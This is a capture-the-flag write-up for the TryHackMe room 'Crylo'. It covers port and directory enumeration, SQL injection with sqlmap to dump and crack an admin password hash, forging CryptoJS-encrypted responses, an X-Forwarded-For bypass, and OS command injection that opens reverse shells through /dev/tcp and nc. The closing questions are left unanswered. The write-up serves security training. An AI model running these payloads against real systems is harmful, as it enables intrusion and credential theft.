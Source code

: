 # Crylo

A writeup for the room [Crylo](https://tryhackme.com/r/room/crylo4a) on TryHackMe.

> Learn about the CryptoJS library and JavaScript-based client-side encryption and decryption.

<Image src={require("./logo.webp").default} height="256" />

## Task 1 - Enumeration

> How many ports are open?

Start the machine and scan the ports with nmap.

```bash
nmap -sS -p- -v [IP]
```

<Image src={require("./nmap.webp").default} />

> What is the 403/forbidden web page?

Open the web page in the browser and check the source code.

Other pages return a 404 error.

<Image src={require("./homepage.webp").default} />

Nothing seems to be interesting, so we can try to enumerate the website with gobuster.

It is important to set the `-s` flag to search for at least the 403 status code.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,css,js -q -s "200,403" -u [URL]
```

<Image src={require("./gobuster.webp").default} />

## Task 2 - Injection

> What is the name of the first username?

It is a common name for the default user of a web application.

> What is the password for the above user?

We can try to login with common credentials, but nothing tried works.

<Image src={require("./login.webp").default} />

Looking to the response we can see that the final text cannot be parsed directly.

However, the client understands it perfectly and shows the result.

It is possible to look to the code to find how it works.

<Image src={require("./code-login.webp").default} />

The client decrypts the response using the CryptoJS library.

The response is encrypted using the AES algorithm with the CBC mode and a hardcode string as key and IV.

Using Cyberchef it is possible to convert the response and see its content.

<Image src={require("./decrypt-response.webp").default} />

Now that the request is known, we can try sqlmap to see if it is vulnerable to SQL injection.

The easy way to manage the request is to save it in a file and use the `-r` flag.

Using the standard risk level is not enough, add `--risk=3 --level=3` to increase it and find a vulnerability.

```bash
# Enumerate databases
sqlmap -r request --risk=3 --level=3 --dbs

# Enumerate tables in food database
sqlmap -r request --risk=3 --level=3 --tables -D food

# Dump auth data to get the hash of the admin password
sqlmap -r request --risk=3 --level=3 --dump -T auth_user -D food
sqlmap -r request --risk=3 --level=3 --dump -T auth_user -D food --data "username=admin" -C password
```

Follow the default answer for all questions except:

```
you provided a HTTP Cookie header value. The target URL provided its own cookies within the HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
```

We can obtain a hash of the admin password that be cracked with a tool like hashcat.

Analyzing the hash with hashid we can find the hash type is Django (PBKDF2-SHA256).

```bash
# Save hash in a file
echo "pbkdf2_sha256$260000$HxnWVrw647R53GeEUksjW5$SggM3ZAh86qRZtnn0VbWOSmHWhckfVvIsMG+jTZstpE=" > hash.txt

# Get hash type for hashcat
hashid -m hash.txt

# Crack the hash with mode 10000 (Django (PBKDF2-SHA256))
hashcat -m 10000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<Image src={require("./hashcat.webp").default} />

## Task 3 - Encryption

> Which library is used for encryption and decryption?

Look in `/static/js/validation.js` to find the answer.

The library can be easily recognized by the capitalized name of the variable.

<Image src={require("./encryption.webp").default} />

> Which JSON parameter was used to validate the pin?

Look in `/static/js/validation.js` to find the answer.

There is a specific if statement for the pin parameter.

<Image src={require("./pin-set.webp").default} />

> Which encryption method is used?

Look in `/static/js/validation.js` to find the answer.

At the beginning of the file there is a comment that says that the encryption method is AES.

## Task 4 - Forbidden Bypass

> What extra header can be used to bypass the page?

Firstly, bypass the login changing the value of `pin_set` to `false`.

```
{"pin_set": "true", "email": "admin@admin.com", "success": "true"}
iL6SVLGiiyY47lh6kX353MqD9I+mcSncHWhuJl6Dg7umFTYotHmMKiPaluJ8J35LebkAv3FSyusGIO8rxwJztzwHX9Ot64ltTlbzi/spfQ4=

{"pin_set": "false", "email": "admin@admin.com", "success": "true"}
HS0kn8CQhTz7NwgLMw9tP1mWXHssgMd2MRJ9EeChrTiPlSg9HGgxyshgHbMYjhFnVbpEi5lm1bRMbgbdebHsfVsN+90GzIuDMX+SBBI9wdY=
```

> What extra header can be used to bypass the page?

Use the `X-Forwarded-For` header to bypass the IP check.

It can be easily added using Burp Suite.

Be careful to always add the header before sending any request.

```
X-Forwarded-For: 127.0.0.1
```

Once the header is added, you will see a simple input text and a submit button.

Send a request and move it to the repeater to simplify the work.

We can check for remote code execution using the following payload.

```bash
22 && sleep 10
```

We can see that the command is executed, so we can try to get a reverse shell.

```bash
ifconfig
nc -nlvp 1337
22 && bash -i >& /dev/tcp/[IP]/1337 0>&1
22 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.172.114 1337 >/tmp/f
```

## Task 5 - Exploitation

> What is the name of the vulnerability used to gain system access?

The vulnerability that we exploited is based on the debug form.

We can send OS commands to be executed on the target server.

[https://portswigger.net/kb/issues/00100100_os-command-injection](https://portswigger.net/kb/issues/00100100_os-command-injection)

> What is the current system’s username?

Once you obtain a reverse shell is enough to run `whoami` to get the answer.

```bash
whoami
```

> What is the user flag?

Go to the home directory of the user to find the flag.

```bash
cd
cat user.txt
```

> Which user is part of the sudo group?

It is enough to check the sudo group to find the answer.

```bash
getent group sudo
```

> What is the password for the above user?

> What is the root flag?
